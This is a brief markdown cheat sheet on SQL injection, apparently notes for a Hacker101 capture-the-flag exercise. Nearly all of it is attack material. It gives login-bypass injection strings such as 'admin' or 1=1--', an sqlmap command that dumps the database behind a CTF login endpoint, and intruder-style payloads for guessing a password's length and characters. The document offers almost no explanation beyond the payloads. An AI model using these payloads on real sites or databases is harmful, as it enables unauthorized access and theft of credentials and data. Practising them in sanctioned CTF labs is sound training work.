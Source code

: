 # SQLi

SQL (Structured Query Language)

`admin' or 1=1--`

`admin" or 1=1#`

`admin' or '1'='1`

`sqlmap -u https://ba4aeefe40a56952d13df303174a9ff9.ctf.hacker101.com/fetch?id=1 /login --data "username=a&password=b" -p username --dump`

`username=' or LENGTH(password)=§1§#&password=administrator username=' or username LIKE '§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§§`_`§'#&password=administrator`
